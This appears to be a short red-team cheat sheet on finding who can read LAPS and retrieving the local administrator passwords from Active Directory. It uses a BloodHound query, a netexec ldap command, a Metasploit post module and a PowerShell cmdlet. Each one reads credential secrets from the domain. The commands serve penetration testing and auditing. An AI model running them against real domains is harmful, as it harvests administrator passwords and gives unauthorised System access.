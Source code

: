 # Get LAPS passwords

### Who can read LAPS?

 - MATCH p=(g:Group)-[:ReadLAPSPassword]->(c:Computer) RETURN p (Bloodhound cypher query)

### Get the LAPS password

#### 1) CrackMapExec/Netexec

 - netexec ldap DC_IP -d DOMAIN -u USER -p PASSWORD -M laps

#### 2) Metasploit

 - use post/windows/gather/credentials/enum_laps

#### 3) Powershell

 - Get-LAPSPasswords -DomainController DC_IP -Credential DOMAIN\LOGIN | Format-Table -AutoSize

### LAPS password gives us System\Admin access
